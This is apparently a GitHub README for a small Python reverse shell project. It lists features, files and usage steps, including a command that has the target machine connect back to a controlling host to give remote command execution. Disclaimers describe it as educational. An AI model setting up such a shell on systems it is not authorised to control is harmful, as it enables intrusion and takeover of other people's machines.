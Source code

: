 # Python Reverse Shell

This project consists of a simple Python reverse shell implementation. It allows a controlling machine to execute commands on a target machine by establishing a connection over the network.

## Features

- Command execution on the target machine.
- Directory navigation support.
- Simple command input and output display.

## Files

- `client.py`: The reverse shell that runs on the target machine.
- `server.py`: The listening server that runs on the controlling machine.

## Requirements

- Python 3.x installed on both machines.
- No external libraries are required.

## Usage

### Setting Up the Listener (server.py)

1. Open a terminal on the controlling machine.
2. Run the server script:

   ```bash
   python server.py --port 9999
   ```

### Running the Reverse Shell (`client.py`)

1. Open a terminal on the target machine (the machine you want to control).
2. Run the client script, replacing `YOUR_IP_ADDRESS` with the IP address of the controlling machine:

   ```bash
   python client.py --server-ip YOUR_IP_ADDRESS --port 9999
   ```
   
### Controlling the Target Machine

- Once the connection is established, you can enter commands in the `server.py` terminal, and the output will be displayed in real-time.
- To exit the reverse shell, type `exit` in the server terminal.

## Important Notes

- **Legal and Ethical Use**: Ensure you have explicit permission to access and control the target machine. Unauthorized access is illegal and unethical.
- **Same Network**: Both machines should be on the same local network for successful communication.
- **Firewall Settings**: Check the firewall settings if you encounter any connection issues.

## Disclaimer

This code is intended for educational purposes only. Use it responsibly and in compliance with all applicable laws and regulations.
